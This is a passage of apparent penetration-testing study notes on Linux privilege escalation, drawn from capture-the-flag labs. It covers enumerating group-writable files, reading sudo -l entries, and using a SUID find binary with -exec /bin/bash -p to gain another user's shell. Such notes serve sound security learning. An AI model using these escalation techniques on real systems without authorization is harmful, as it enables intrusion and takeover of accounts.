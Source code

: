 * Find files that the users group can edit

```
find / -group users -type f 2>/dev/null
```

* In the above example users is the name of the group he is in.

#### Sudo -l

* If you have the password, on of the first checks should be

```
sudo -l
```

* If there is an entry like:

```
Matching Defaults entries for www-data on THM-Chal:                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

* Means you can `sudo /usr/bin/perl /home/itguy/backup.pl` with no password
* However you cannot `sudo perl /home/itguy/backup.pl` with no password
* Need to use the absolute paths if they are specified that way!!!

**Taking advantage of SUID files**

* Some administrators will set the SUID bit manually to allow certain programs to be run as them.
* Lets say you're a system administrator and a non-privileged user wants to program that requires it to be run with higher privileges.
* They can set the SUID bit, then the non-privileged user can execute the program without having any extra account permissions set.
* See who a command is running as:

```
$ id
uid=1000(ice-wzl) gid=1000(ice-wzl) groups=1000(ice-wzl) <--cmd output
touch foo
find foo -exec whoami \;
igor <--command output (now get shell as igor)
find foo -exec /bin/bash -p \;
$ id
uid=1000(ice-wzl) gid=1000(ice-wzl) euid=1001(igor)
```

### Custom Binarys

* Cross reference a list of standard binaries on a linux system with the ones you see, admins will add their own sometimes

```
strings system-control
```
